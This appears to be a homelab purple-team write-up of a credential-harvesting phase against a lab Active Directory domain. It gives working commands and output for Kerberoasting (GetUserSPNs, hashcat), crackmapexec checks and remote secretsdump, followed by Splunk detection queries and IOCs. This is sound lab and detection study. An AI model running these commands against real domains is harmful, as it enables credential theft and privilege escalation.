



# Phase 3 — Credential Harvesting

> **Tactic:** Credential Access  
> **ATT&CK:** T1558.003, T1003.001, T1003.002  
> **Target:** svc_backup via Kerberoasting, HL-WS01 via secretsdump  
> **Result:** svc_backup plaintext password + domain cached hashes

---

## Overview

Two credential harvesting techniques were used in this phase. First, 
Kerberoasting was used to request a TGS ticket for svc_backup and crack 
it offline. Second, secretsdump was run against HL-WS01 using johnson's 
credentials to extract SAM hashes and cached domain credentials.



---

## Attack Path A — Kerberoasting svc_backup

### Step 1 — Enumerate SPNs as brown
```bash
impacket-GetUserSPNs homelab.local/brown:'password@123' \
  -dc-ip 192.168.0.104
```

Expected output:
```
ServicePrincipalName           Name        MemberOf
-----------------------------  ----------  ----------------
HTTP/backup.homelab.local      svc_backup  Backup_Operators
```

> Any domain user can request TGS tickets for accounts with SPNs. 
> This is what makes Kerberoasting accessible from a low-privileged account 
> like brown (HR).

### Step 2 — Request TGS Ticket
```bash
impacket-GetUserSPNs homelab.local/brown:'password@123' \
  -dc-ip 192.168.0.104 \
  -request \
  -outputfile /tmp/svc_backup_tgs.txt

cat /tmp/svc_backup_tgs.txt
# $krb5tgs$23$*svc_backup$HOMELAB.LOCAL$HTTP/backup.homelab.local*$...
```

> The `$23$` in the hash indicates RC4 encryption (0x17) — the weakest 
> Kerberos encryption type and the classic Kerberoasting indicator that 
> Splunk detects via EventID 4769.

### Step 3 — Crack the Hash Offline
```bash
hashcat -m 13100 \
  /tmp/svc_backup_tgs.txt \
  /usr/share/wordlists/rockyou.txt \
  --force

# Show cracked result
hashcat -m 13100 \
  /tmp/svc_backup_tgs.txt \
  /usr/share/wordlists/rockyou.txt \
  --force --show
```

Result:
```
$krb5tgs$23$*svc_backup$...:Summer2024!
```

### Step 4 — Verify Credentials
```bash
# Test against DC01
crackmapexec smb 192.168.0.104 \
  -u svc_backup \
  -p 'Summer2024!' \
  -d homelab.local

# Test against WS01 — should show Pwn3d!
crackmapexec smb 192.168.0.105 \
  -u svc_backup \
  -p 'Summer2024!' \
  -d homelab.local
```

Expected output on WS01:
```
SMB  192.168.0.105  445  HL-WS01  [+] homelab.local\svc_backup:Summer2024! (Pwn3d!)
```

 

---

> **Note:** johnson's password was known from the lab setup phase.  
> In a real engagement this would be obtained via password spraying,  
> phishing, or cracking a captured hash.

## Attack Path B — Secretsdump via johnson (IT)

### Step 1 — Connect to WS01 as johnson (IT)
```bash
evil-winrm -i 192.168.0.105 -u johnson -p 'password@123'
```

### Step 2 — Run Secretsdump Remotely from Kali
```bash
impacket-secretsdump homelab.local/johnson:'password@123'@192.168.0.105 \
  -outputfile /tmp/ws01_dump
```

Output files generated:
```
/tmp/ws01_dump.sam      → local NTLM hashes
/tmp/ws01_dump.secrets  → LSA secrets
/tmp/ws01_dump.cached   → DCC2 cached domain hashes
```

> **Important:** DCC2 cached hashes cannot be used for Pass-the-Hash. 
> They can only be cracked offline. The real value here is confirming 
> johnson (IT) has local admin rights and that secretsdump works against WS01.

---

## Credentials Harvested

| Account | Method | Credential |
|---------|--------|------------|
| svc_backup | Kerberoast + hashcat | Summer2024! |
| johnson (IT) | Known password | password@123 |
| brown (HR) | Known password | password@123 |

---

## Splunk Detection

### Kerberoasting — TGS Ticket Request EID 4769
```
index=wineventlog host="HL-DC01" EventCode=4769
| search Account_Name="brown@HOMELAB.LOCAL"
| table _time, Account_Name, Service_Name, Client_Address, Ticket_Encryption_Type
```

### RC4 Encryption — Classic Kerberoast Indicator
```
index=wineventlog host="HL-DC01" EventCode=4769
| search Account_Name="brown@HOMELAB.LOCAL" OR Account_Name="johnson@HOMELAB.LOCAL"
| table _time, Account_Name, Service_Name, Client_Address, Ticket_Encryption_Type
```

### johnson Network Logon to WS01 — EID 4624
```
index=wineventlog host="HL-WS01" EventCode=4624
| search Account_Name="johnson" Logon_Type="3"
| table _time, Account_Name, Logon_Type, Source_Network_Address
```

### RemoteRegistry Started — Secretsdump Indicator EID 7036
```
index=wineventlog host="HL-WS01" EventCode=7036
| search Message="*Remote Registry*"
| table _time, Message, ComputerName
```



---

## IOCs Generated

| Type | Value |
|------|-------|
| Hash File | /tmp/svc_backup_tgs.txt |
| Cracked Password | Summer2024! |
| Source IP | 192.168.0.103 |
| Target SPN | HTTP/backup.homelab.local |
| Encryption Type | 0x17 (RC4) — weak, crackable |

---

## Key Takeaway

> svc_backup is confirmed as a local admin on HL-WS01 and a member of 
> Backup Operators on DC01. With plaintext credentials in hand the next 
> step is to abuse the Backup Operators privilege to extract NTDS.dit 
> directly from the Domain Controller.
